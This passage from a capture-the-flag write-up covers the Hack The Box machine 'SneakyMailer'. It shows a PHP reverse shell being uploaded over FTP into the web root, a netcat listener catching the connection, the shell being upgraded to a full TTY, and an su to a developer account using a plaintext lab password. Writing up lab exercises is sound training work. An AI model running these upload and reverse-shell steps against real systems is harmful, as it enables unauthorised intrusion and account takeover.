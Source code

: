 We seem to have access to the folder `dev` that contains what seems to be the web-directory. If we are able to upload php files, we have code-execution.

#### Getting a shell

```bash
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
3270 bytes sent in 0.00 secs (70.8753 MB/s)
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
--wxrw-rw-    1 1001     1001         3270 Jul 12 14:37 shell.php
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
```

It seems like we are indeed allowed to upload php files. Let us access the php reverse-shell we just uploaded. As the root folder is dev, we can assume that we are in the dev Vhost. Therefore, we should be able to access the shell via: http://dev.sneakycorp.htb/shell.php.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:41694.
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 14:41:17 up  4:32,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@sneakymailer:/$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
root@darkness:~# nc -lvnp 443

www-data@sneakymailer:/$ export TERM=xterm
www-data@sneakymailer:/$ su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
developer@sneakymailer:/$
```
